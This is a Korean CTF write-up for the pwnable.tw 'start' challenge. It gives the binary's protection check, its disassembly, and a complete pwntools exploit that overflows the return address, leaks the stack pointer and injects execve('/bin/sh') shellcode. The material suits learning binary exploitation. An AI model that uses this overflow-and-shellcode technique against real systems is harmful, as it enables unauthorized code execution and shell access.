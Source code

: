 ```yaml
---
title: "[pwnable.tw]start"
date: 2019-11-17
tags: [pwnable.tw]
categories: [pwnable.tw]
---
```


보호기법은 하나도 안 걸려있다.

```
[*] '/vagrant/ctfs/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

`_start` 에서 syscall로 write, read 호출한다. 

write는 esp에 있는 값을 20바이트 만큼 출력해준다. push 해준 값들인데 아마 `Let's start the CTF: ` 이거 출력해줄 것이다. 그리고 read는 64바이트만큼 입력받을 수 있다. 그리고 마지막에 esp 정리해주고 exit으로 리턴해준다. 

```assembly
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 60
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

여기서 리턴을 덮어서 원하는 주소로 갈 수 있다. 근데 ret할때 esp가 스택주소가 들어있는데 `0x08048087` 로 리턴해주면 stack 주소를 leak 할 수 있다. 그리고 `add esp, 0x14` 하고 ret하니까 쉘코드가 있는 주소로 덮으면 쉘코드 실행이 된다 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./start')
#p = process('./start')
p = remote('chall.pwnable.tw',10000)
gadget = 0x08048087 # mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80

payload = 'A'*0x14
payload += p32(gadget)
p.sendafter(':',payload)

stack = u32(p.recv(4))
log.info('stack : ' + hex(stack))

#raw_input()
payload2 = 'A'*0x14
payload2 += p32(stack + 0x14)
payload2 += '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
p.send(payload2)

p.interactive()
```

